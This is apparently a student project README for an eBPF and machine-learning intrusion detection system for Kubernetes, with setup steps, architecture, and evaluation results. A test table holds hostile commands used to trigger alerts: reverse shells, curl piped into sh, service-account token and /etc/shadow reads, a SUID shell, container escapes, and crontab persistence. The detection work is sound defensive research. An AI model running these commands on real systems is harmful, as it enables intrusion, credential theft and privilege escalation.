


# eBPF-Based Intrusion Detection System for Kubernetes

**Observe Runtime. Detect Anomalies. Secure Kubernetes.**

A real-time runtime intrusion detection system for Kubernetes:

1. An **eBPF sensor** (C / libbpf) captures Linux kernel events from every container: process, file, network and security-sensitive syscalls.
2. Each event is **mapped to its Pod, container, namespace and workload**.
3. Events are converted into **behavioural features** and classified by a **Random Forest** plus a **rules engine**.
4. Suspicious activity becomes a **Low / Medium / High alert** tagged with MITRE ATT&CK, stored in **MongoDB**, served by **FastAPI** and shown on a **React** dashboard.
5. The system is **evaluated** on detection rate, false positives, latency and resource overhead.

Rajiv Gandhi University of Knowledge Technologies – Basar · Computer Science and Engineering<br>
Guide: Mrs. Geetla Srujana · Team: Yashoda Adarsh (B210010), Arre Sahithya (B210722), Angari Udaykumar (B211449)

---

## Contents

- [How it works internally](#how-it-works-internally)
- [Tools required](#tools-required)
- [How to run](#how-to-run)
- [Try it manually](#try-it-manually)
- [Architecture](#architecture)
- [Repository layout](#repository-layout)
- [Dataset and model](#dataset-and-model)
- [Evaluation results](#evaluation-results)
- [Troubleshooting](#troubleshooting)
- [Limitations and future work](#limitations-and-future-work)
- [References](#references)

---

## How it works internally

The platform watches Kubernetes workloads in real time and converts raw kernel activity into security alerts.

1. Each node runs an eBPF agent as a DaemonSet.
2. The eBPF program captures kernel events such as `exec`, `open`, `connect`, `mount`, `setuid`, and `ptrace` from the host and container namespaces.
3. The agent enriches each event with Kubernetes metadata such as Pod name, namespace, container, and workload.
4. The Python pipeline extracts features, checks them against a trained ML model and deterministic security rules, and assigns a risk score.
5. Suspicious activity becomes an alert and is stored in MongoDB.
6. The FastAPI backend exposes the event and alert data to the dashboard.
7. The React dashboard shows live overview metrics, alert history, event streams, and evaluation results.



This creates a loop where runtime behavior is captured at the kernel level, enriched with Kubernetes context, scored, and surfaced to operators in near real time.

---

## Tools required

### Software

| Tool | Version (tested) | Used for | Check with |
|---|---|---|---|
| **Linux** (Ubuntu 22.04 / 24.04 recommended) | kernel **≥ 5.8** with BTF, x86_64 (tested on 6.8) | eBPF CO-RE needs `/sys/kernel/btf/vmlinux` | `uname -r && ls /sys/kernel/btf/vmlinux` |
| **Docker** | 24+ (tested 29.1) | building images, minikube driver | `docker --version` |
| **minikube** | 1.32+ (tested 1.38) | local Kubernetes cluster | `minikube version` |
| **kubectl** | 1.28+ (tested 1.35) | deploying to the cluster | `kubectl version --client` |
| **Python** | **3.12** with `venv` | ML training, tests, evaluation script | `python3 --version` |
| **Node.js + npm** | Node 18+ (tested 25) | only to run the dashboard in dev mode (the image builds it in Docker) | `node --version` |
| git | any | version control | `git --version` |

Your user must be able to run Docker without `sudo`:
```bash
sudo usermod -aG docker $USER    # then log out and back in
```

You do **not** need clang, libbpf or bpftool on your machine. The eBPF program is compiled inside the agent's Docker build.

### Hardware

| | Minimum | Recommended |
|---|---|---|
| RAM | 6 GB | 8 GB or more |
| CPU | 2 cores | 4 cores |
| Free disk | 15 GB | 20 GB |

minikube itself needs about **3 GB of RAM**. Inside the cluster, the IDS uses roughly 0.7–1 GB and Kubernetes about 1–1.3 GB. Close other heavy containers or VMs before deploying (see [Troubleshooting](#troubleshooting)).

### Install the tools (Ubuntu)

```bash
# Docker
sudo apt-get update && sudo apt-get install -y docker.io python3 python3-venv python3-pip git curl
sudo usermod -aG docker $USER && newgrp docker

# kubectl
curl -LO "https://dl.k8s.io/release/$(curl -Ls https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -m 0755 kubectl /usr/local/bin/kubectl && rm kubectl

# minikube
curl -LO https://storage.googleapis.com/minikube/releases/latest/minikube-linux-amd64
sudo install minikube-linux-amd64 /usr/local/bin/minikube && rm minikube-linux-amd64

# Node.js (optional, dashboard dev mode only)
curl -fsSL https://deb.nodesource.com/setup_20.x | sudo -E bash - && sudo apt-get install -y nodejs
```

---

## How to run

Run every command from the project root:

```bash
cd SecureSME-Platform
```

### Step 1 – Python virtual environment

```bash
python3 -m venv .venv
.venv/bin/pip install --upgrade pip
.venv/bin/pip install -r requirements-dev.txt
```

### Step 2 – Generate the dataset and train the model

A trained model is already included in `ml/model/`. Run this step only to regenerate or retrain.

```bash
.venv/bin/python ml/generate_dataset.py   # -> ml/training_data.csv (40,000 labelled events)
.venv/bin/python ml/train_model.py        # -> ml/model/ids_model.joblib + ml/model/evaluation.json
```

The training script prints detection rate, false-positive rate, precision, F1, ROC-AUC, cross-validation and inference-latency results.

### Step 3 – Run the tests (optional)

```bash
# agent: features, rules, Kubernetes enrichment, trained model
.venv/bin/python -m pytest services/ebpf-agent/tests

# backend: needs a temporary MongoDB
docker run -d --rm --name ids-mongo-test --network host mongo:7.0 --port 27099 --bind_ip 127.0.0.1
(cd services/backend && MONGO_URI=mongodb://127.0.0.1:27099 ../../.venv/bin/python -m pytest tests)
docker stop ids-mongo-test
```

### Step 4 – Start minikube

```bash
minikube start --driver=docker --cpus=2 --memory=3072
```

### Step 5 – Build and deploy everything

```bash
./scripts/deploy_minikube.sh
```

This one script:
1. builds the `ids-agent`, `ids-backend` and `ids-frontend` images (the eBPF C code is compiled here);
2. loads them and `mongo:7.0` into minikube (the minikube node needs no internet access);
3. creates the `ebpf-ids` namespace and a Secret with random credentials;
4. deploys MongoDB, the FastAPI backend, the React dashboard and the eBPF agent DaemonSet;
5. waits until everything is running and prints the dashboard address and the admin password:

```
Dashboard : http://192.168.49.2:30080
Login     : admin / <random password>
```

The first run takes about 10–15 minutes. To redeploy without rebuilding the images:

```bash
SKIP_BUILD=1 ./scripts/deploy_minikube.sh
```

### Step 6 – Check that it is running

```bash
kubectl -n ebpf-ids get pods
#  ids-agent-xxxxx      1/1  Running     <- eBPF sensor (one per node)
#  ids-backend-...      1/1  Running     <- FastAPI
#  ids-frontend-...     1/1  Running     <- React dashboard
#  ids-mongodb-...      1/1  Running     <- MongoDB

kubectl -n ebpf-ids logs ds/ids-agent | grep ready
#  eBPF monitor ready: 16 tracepoints attached, 0 failed
```

### Step 7 – Open the dashboard

Open **http://\<minikube ip\>:30080** (usually `http://192.168.49.2:30080`), or run:

```bash
minikube service ids-frontend -n ebpf-ids
```

Log in as **admin**. To print the password again:

```bash
kubectl -n ebpf-ids get secret ids-secrets -o jsonpath='{.data.admin-password}' | base64 -d; echo
```

| Page | Shows |
|---|---|
| **Overview** | kernel events, open alerts, pods monitored, agent CPU/memory, latency, timeline, severity, attack categories, riskiest pods, MITRE techniques |
| **Alerts** | search and filter by severity, status, namespace, category; click a row for risk score, ML probability, matched rules, MITRE technique, Kubernetes context and kernel event; acknowledge or resolve |
| **Events** | live stream of every kernel event with its verdict (normal / suspicious / raw), search and filter |
| **Evaluation** | live agent overhead and latency, attack-simulation results, model metrics, confusion matrix, per-category detection, feature importance |

### Step 8 – Run the automated evaluation

```bash
.venv/bin/python evaluation/run_live_eval.py                 # full run (~5 min)
.venv/bin/python evaluation/run_live_eval.py --skip-overhead # skip the agent on/off exec benchmark
```

This deploys a test workload (`ids-demo/shop-web`), runs 20 harmless attack re-enactments and 15 benign look-alike commands inside it, then measures detection rate, false-positive rate, detection latency and exec overhead. Results are printed, saved to `evaluation/results/`, and shown on the dashboard's **Evaluation** page.

### Stop and clean up

```bash
minikube stop                                          # stop the cluster (keeps everything)
kubectl delete namespace ebpf-ids ids-demo             # remove the IDS and the test workload
kubectl delete clusterrole,clusterrolebinding ids-agent
```

---

## Try it manually

Keep the dashboard open on **Alerts** or **Events** (filter: namespace `ids-demo`), then open a shell in the test pod:

```bash
kubectl apply -f evaluation/victim/victim.yaml        # created by run_live_eval.py, or do it once by hand*
kubectl -n ids-demo exec -it deploy/shop-web -- bash
```
\* when deploying the victim by hand, first build and load its image:
`docker build --network host -t ids-victim:latest evaluation/victim && minikube image load ids-victim:latest`

**Benign commands.** These should appear as *normal* events:

```bash
ls -la /app
ps aux
python3 -c 'print(6*7)'
cat /etc/hostname
```

**Attack commands.** All are harmless; `100.100.x.x` is unroutable and the "miner" is a renamed `sleep`:

| Command | Expected alert |
|---|---|
| `cat /var/run/secrets/kubernetes.io/serviceaccount/token` | High – service-account token read |
| `cat /etc/shadow` | High – password database read |
| `timeout 3 bash -c 'bash -i >& /dev/tcp/100.100.23.7/4444 0>&1'` | High – reverse shell |
| `timeout 3 nc -e /bin/sh 100.100.23.7 4444` | High – reverse shell |
| `curl -s --max-time 2 http://100.100.23.7/x.sh \| sh` | High – download piped into a shell |
| `cp /bin/sleep /tmp/.kworker && /tmp/.kworker 1` | binary run from a hidden /tmp location |
| `mkdir -p /tmp/.xm && cp /bin/sleep /tmp/.xm/xmrig && /tmp/.xm/xmrig -o stratum+tcp://pool.minexmr.com:4444 \|\| true` | High – crypto-miner |
| `cp /bin/bash /tmp/.rootsh && chmod u+s /tmp/.rootsh` | High – SUID bit set |
| `nsenter --target 1 --mount --pid -- true` | High – container escape |
| `unshare -Ur true` | High – container escape (user namespace) |
| `curl -s --max-time 2 --unix-socket /var/run/docker.sock http://x/` | High – Docker socket access |
| `curl -sk --max-time 2 https://192.168.49.2:10250/pods` | High – kubelet API accessed from a workload |
| `curl -s --max-time 2 http://169.254.169.254/latest/meta-data/` | cloud metadata access |
| `nc -zv -w 1 10.96.0.1 440-445` | port scan |
| `echo '* * * * * root id' >> /etc/crontab` | High – persistence file modified |
| `bash -c 'unset HISTFILE; history -c'` | log / history tampering |
| `python3 -c "import os; os.memfd_create('')"` | High – fileless execution |

Alerts appear within about a second. Running the same command again within 10 minutes increases the alert's **Count** instead of adding a new row. To follow the agent in the terminal:

```bash
kubectl -n ebpf-ids logs -f ds/ids-agent | grep ALERT
```

### Dashboard development mode (optional)

```bash
kubectl -n ebpf-ids port-forward svc/ids-backend 8000:8000 &
cd services/frontend && npm install && npm run dev      # http://localhost:5173
```

---

## Architecture



| Module | Implementation |
|---|---|
| **eBPF Monitoring** | [`bpf/ids.bpf.c`](services/ebpf-agent/bpf/ids.bpf.c) – libbpf CO-RE program on 16 syscall tracepoints: `execve` (path + argv, successful execs only), `openat` on sensitive paths (filtered in the kernel), `connect` (IPv4/IPv6 + container-runtime sockets), `ptrace`, `setuid`/`setresuid`, `mount`, `unshare`, `setns`, `chmod` (suid/exec bits), `init_module`/`finit_module`, `memfd_create` |
| **Event Collection** | [`loader/ids_loader.c`](services/ebpf-agent/loader/ids_loader.c) – C loader, BPF ring buffer, kernel drop counters → [`collector.py`](services/ebpf-agent/ids_agent/collector.py) |
| **Kubernetes Enrichment** | [`enrichment.py`](services/ebpf-agent/ids_agent/enrichment.py) – cgroup id → pod UID / container ID → Pod metadata from the Kubernetes API; workload resolved through owner references |
| **Feature Extraction** | [`features.py`](services/ebpf-agent/ids_agent/features.py) – 74 features, one module shared by training and the live agent: event type, process lineage, command-line patterns, sensitive files, network destination, syscall arguments, 60 s behaviour window per container, new-binary baseline per workload |
| **Detection** | [`detector.py`](services/ebpf-agent/ids_agent/detector.py) Random Forest (benign + 9 attack classes) + [`rules.py`](services/ebpf-agent/ids_agent/rules.py) (19 rules with platform exemptions) |
| **Risk & Alert** | risk score 0–100 from ML probability and rule severity → Low / Medium / High, MITRE ATT&CK technique, de-duplication |
| **Storage / API / UI** | MongoDB · [`services/backend`](services/backend) FastAPI (JWT login, agent token) · [`services/frontend`](services/frontend) React + Tailwind + Recharts |
| **Evaluation** | [`ml/train_model.py`](ml/train_model.py) (offline) · agent heartbeats (latency, CPU, memory, drops) · [`evaluation/run_live_eval.py`](evaluation/run_live_eval.py) (attack simulation, exec overhead) |

**Tech stack:** eBPF · C · libbpf · Docker · Kubernetes · Minikube · Python · pandas · NumPy · scikit-learn · FastAPI · MongoDB · React.js · Ubuntu Linux · GitHub

---

## Repository layout

```
services/
  ebpf-agent/
    bpf/               eBPF kernel program (C) + shared event struct
    loader/            libbpf user-space loader (C)
    ids_agent/         Python pipeline: collector, enrichment, features, detector, rules, shipper, metrics
    tests/             agent unit tests
    Dockerfile         multi-stage: compiles eBPF + loader, then Python runtime
  backend/             FastAPI + MongoDB REST API (app/, tests/, Dockerfile)
  frontend/            React dashboard (src/, nginx.conf, Dockerfile)
ml/
  generate_dataset.py  labelled runtime-event dataset generator (edge cases included)
  training_data.csv    40,000 events
  train_model.py       Random Forest training + offline evaluation
  model/               ids_model.joblib + evaluation.json (copied into the agent image)
infra/k8s/             namespace, MongoDB, backend, frontend, agent DaemonSet + RBAC
evaluation/            test workload (victim/) + run_live_eval.py + results/
scripts/               deploy_minikube.sh
requirements-dev.txt   Python packages for the virtual environment
JOURNAL.md             engineering journal (design decisions, bugs fixed)
```

---

## Dataset and model

[`ml/generate_dataset.py`](ml/generate_dataset.py) produces events in exactly the shape the sensor emits after Kubernetes enrichment.

- **Size and sources:** 40,000 rows from **52 template families** (29 benign, 23 attack; ~300 concrete command/event variants), with randomised IPs, ports, file names, users, namespaces and behaviour windows.
- **Original data kept:** the 17 command patterns of the original v0 dataset remain as templates.
- **Attack categories:** reverse shell, dropper, crypto-miner, privilege escalation, container escape, credential access, discovery, defense evasion, lateral movement.

More than half of the rows are deliberate **edge cases**:

- *benign but looks malicious* – `runc` namespace/mount syscalls, `nc -z` and `/dev/tcp` wait-for loops, health probes with `curl … || exit 1`, base64-decoded configs, Go/C builds executing from `/tmp`, CoreDNS reading its service-account token, kube-apiserver reading `/etc/kubernetes/pki`, `sshd` reading `/etc/shadow`, postgres writing `/dev/shm`, CSI drivers mounting block devices, `strace` in dev pods, `kubectl`/`helm` in CI namespaces;
- *malicious but looks benign* – reverse shells on ports 443/80/53, base64-obfuscated payloads, miners disguised as `nginx`/`kworkerds`, fileless memfd execution, `curl … | bash` from GitHub, slow-and-low connections, recon spawned by web servers.

The model is a multi-class Random Forest (150 trees). P(malicious) = 1 − P(benign) drives detection, and the most likely attack class picks the MITRE technique.

---

## Evaluation results

### Offline (model, `ml/model/evaluation.json`)

| Test set | Detection rate | False-positive rate | Precision | F1 | ROC-AUC |
|---|---|---|---|---|---|
| Hold-out (stratified 20 %) | **98.7 %** | **0.18 %** | 99.5 % | 0.991 | 0.9997 |
| Edge cases only | 98.1 % | 0.29 % | 99.0 % | 0.985 | 0.9995 |
| Unseen template families | 90.4 % | 15.9 % | 76.2 % | 0.827 | 0.962 |
| Baseline: Isolation Forest (v0 approach) | 12.0 % | 1.3 % | 75.7 % | 0.207 | – |

- **Cross-validation:** 5-fold F1 = 0.990 ± 0.001.
- **Inference latency:** 0.04 ms per event in batches of 256 (6 ms for a single event).
- **Unseen families:** the "unseen template families" row is the honest generalisation number. These are whole attack and benign families the model never saw during training. Covering this gap is the job of the rules layer.

### Live cluster (`evaluation/results/live_eval_20261107_145407.json`)

| Metric | Result |
|---|---|
| Attack scenarios detected | **19 / 20 (95 %)** – missed: basic container recon (`cat /proc/1/cgroup; uname -a; id`) |
| Benign scenarios flagged | 4 / 15 (26.7 %) – `curl`/`wget` to localhost, `nc -z`, `/dev/tcp` port check run from an interactive shell |
| Detection latency (kernel event → verdict) | avg **140 ms**, p95 280 ms |
| Kernel events dropped | 0 |
| Agent memory | ~241 MB (agent 231 MB + C loader 10 MB) |
| Agent CPU under exec stress (≈230 events/s) | ~31 % of one core |
| Exec overhead (2,000 × fork+exec of `/bin/true`) | 3.67 s with the agent vs 1.42 s without (+158 %) |

What these numbers mean:
- **Benign false positives.** The benign commands that were flagged were run from an interactive `kubectl exec` shell, which the model associates with attacker sessions. Production workloads that perform such checks from their own entrypoints or probes look different in the behaviour window.
- **Exec overhead.** The +158 % is a worst-case micro-benchmark: every exec is captured and scored in Python. Under the normal event rate in minikube (a few events per second) the agent's CPU use is negligible.

Run `evaluation/run_live_eval.py` again to reproduce these results. Each run is also shown on the dashboard.

---

## Troubleshooting

| Problem | Fix |
|---|---|
| Laptop freezes during deployment | Not enough free RAM. Check `free -h`; stop other containers/VMs (`docker ps`, `docker stop <name>`), close extra editor windows. Aim for ≥ 4 GB "available" before `minikube start`. |
| `docker build` cannot download packages | Docker's bridge network has no internet. The script already builds with `--network host`; to change it: `BUILD_NETWORK=default ./scripts/deploy_minikube.sh`. |
| `lookup registry-1.docker.io … i/o timeout` | Temporary DNS failure. Re-run the script. |
| Code change not visible after redeploy | Re-run `./scripts/deploy_minikube.sh` (without `SKIP_BUILD`). It removes the old image tag inside minikube before loading, then restarts the pods. |
| Agent pod not `Running` | `kubectl -n ebpf-ids logs ds/ids-agent`. The kernel must have BTF (`ls /sys/kernel/btf/vmlinux`). |
| Dashboard shows no events | Check `kubectl -n ebpf-ids get pods` and the agent log for `16 tracepoints attached`. |
| Forgot the admin password | `kubectl -n ebpf-ids get secret ids-secrets -o jsonpath='{.data.admin-password}' \| base64 -d` |
| `ErrImageNeverPull` | The image was not loaded into minikube. Re-run the deploy script. |

---

## Limitations and future work

- File monitoring matches absolute paths only; relative `openat` paths (e.g. after `cd /etc`) are not resolved.
- argv is truncated to 8 arguments × 127 bytes in the kernel (the dataset applies the same truncation).
- The training data is synthetic. Generalisation to unseen attack families is clearly lower than in-distribution accuracy, and benign commands run from interactive shells cause false positives. Collecting labelled telemetry from real workloads is the next step.
- Exec-heavy workloads pay a measurable overhead. Moving more filtering into the kernel and scoring only events with Kubernetes context would reduce it.
- Single-node minikube only. Multi-node scale, higher event-rate stress tests, LSM-based prevention (blocking) and sequence models are future work.

---

## References

1. Kostopoulos et al. (2025). *eIDPS: A Real-Time eBPF-Based and Machine Learning-Powered Network Intrusion Detection and Prevention Solution.* IEEE EEITE 2025.
2. Zhang et al. (2024). *Real-Time Intrusion Detection and Prevention with Neural Network in Kernel Using eBPF.* IEEE/IFIP DSN 2024.
3. Bachl, Fabini & Zseby (2021). *A Flow-Based IDS Using Machine Learning in eBPF.*
4. Cilium Tetragon – eBPF-based Kubernetes runtime security and observability platform.
